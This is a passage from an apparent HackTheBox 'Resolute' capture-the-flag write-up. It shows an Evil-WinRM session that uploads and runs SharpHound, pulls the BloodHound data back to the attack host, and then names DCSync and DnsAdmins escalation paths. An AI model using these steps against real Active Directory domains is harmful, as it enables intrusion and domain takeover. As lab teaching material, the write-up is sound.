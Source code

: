 ## Lateral Movement

The most efficient way to move forward is to collect and analyze domain information using [BloodHound](../../tools/tools/active-directory/bloodhound.md).

{% code overflow="wrap" %}
```bash
# upload binary to the target
*Evil-WinRM* PS C:\Users\melanie\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/resolute/SharpHound.exe to C:\Users\melanie\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!
# execute binary and collect data
*Evil-WinRM* PS C:\Users\melanie\Documents> .\SharpHound.exe -c all
# download the output to the attack host
*Evil-WinRM* PS C:\Users\melanie\Documents> download 20240318090426_BloodHound.zip

Info: Downloading C:\Users\melanie\Documents\20240318090426_BloodHound.zip to 20240318090426_BloodHound.zip

Info: Download successful!
```
{% endcode %}

By analyzing the data, some interesting paths pop out. If we somehow get `SYSTEM` access to this box we will be able to fully compromise the domain via a DCSync attack (Figure 1).

<figure><img src="../../.gitbook/assets/resolute_dcsync.png" alt=""><figcaption><p>Figure 1: BloodHound let us know that the RESOLUTE host has DCSync rights over the domain.</p></figcaption></figure>

Another interesting avenue is through `ryan` that is a member of the `DnsAdmins` group which can be potentially exploited (Figure 2).
